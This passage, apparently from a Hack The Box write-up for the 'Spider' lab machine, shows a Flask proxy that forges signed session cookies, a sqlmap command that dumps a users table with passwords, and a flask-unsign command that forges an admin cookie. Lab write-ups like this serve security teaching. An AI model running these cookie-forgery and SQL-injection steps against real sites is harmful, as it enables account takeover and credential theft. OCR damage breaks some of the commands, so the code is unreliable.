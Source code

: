 ```bash

@app.route("/")
def index():
		uuid = request.args['uuid']
		data = {"uuid": uuid, "cart_items": []}
		cookie = session_serializer.dumps(data)
		cookies = {"session": cookie}
		r = requests.get("http://spider.htb/", cookies=cookies)
		return r.text

if __name__ == "__main__":
app.run()
```

After running the above Flask application, we run `sqlmap `with the ``--dump`` option as follows, setting the injection on the  ``uuid parameter:``
#### code-sqlmap
```bash
sqlmap -u "http://127.0.0.1:80?uuid=71f57eec-d494-455a-9c8f-3398c67ed5c7" -p uuid --
dump
```

The contents of `users table `in the `shop database `are returned:

```bash
Database: shop
Table: users
[3 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 9d61933d-5c24-4081-9b46-cdfea24f327d | {{8*5}}    | les98           |
| 3  | 71f57eec-d494-455a-9c8f-3398c67ed5c7 | {{config}} | tULI98          |
+----+--------------------------------------+------------+-----------------+
```

## Intial FootHold
Let's Login with the credentials or forge a valid cookie for ``user`` ``chiv`` to forge we use flask_usign and chiv ``uuid`` to crete a valid session:
#### code-cookie forge
```bash
flask-unsign --sign --cookie '{"cart_items":[],"uuid":"129f60ea-30cf-4065-afb9-
6be45ad38b73"}' --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
```

![[forge.png]]

After  using the credentials from the sqlmap or replacing our session cookie and reloading the page, we are successfully logged in as ``chiv ``. We can now access the admin panel:

![[adminpn.png]]
